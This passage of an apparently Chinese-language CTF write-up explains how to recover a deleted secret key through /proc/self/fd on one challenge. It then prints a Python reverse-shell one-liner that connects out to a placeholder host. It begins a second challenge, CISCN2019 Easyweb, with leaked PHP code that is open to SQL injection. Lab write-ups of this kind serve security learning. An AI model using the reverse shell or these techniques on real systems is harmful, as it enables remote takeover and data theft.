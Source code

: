 `/no_one_know_the_manager` 路由中可以通过 os.system 无回显执行命令, 但是要验证 secret key

secret key 在 /tmp/secret.txt 里面, 并且读取之后利用 os.remove 删除了文件

```python
SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)
```

注意程序使用 open 来读取文件, 但是在删除之后并没有执行 close 方法

根据上面的参考文章可知 secret.txt 的文件描述符依然存在于 /proc/self/fd 中, 于是我们通过该目录来获取文件内容

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210181715999.png)

id 试到 3 时出来了一串字符, 猜测为 secret key

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210181716285.png)

最后反弹 shell

```python
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("x.x.x.x",yyyy));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210181720886.png)

## [CISCN2019 总决赛 Day2 Web1]Easyweb

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210181725857.png)

robots.txt

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210181725561.png)

根据右键源代码得知有 user.php image.php index.php 三个文件

试到 image.php.bak 时发现能下载

```php
<?php
include "config.php";

$id=isset($_GET["id"])?$_GET["id"]:"1";
$path=isset($_GET["path"])?$_GET["path"]:"";

$id=addslashes($id);
$path=addslashes($path);

$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
$path=str_replace(array("\\0","%00","\\'","'"),"",$path);

$result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
$row=mysqli_fetch_array($result,MYSQLI_ASSOC);

$path="./" . $row["path"];
header("Content-Type: image/jpeg");
readfile($path);
```
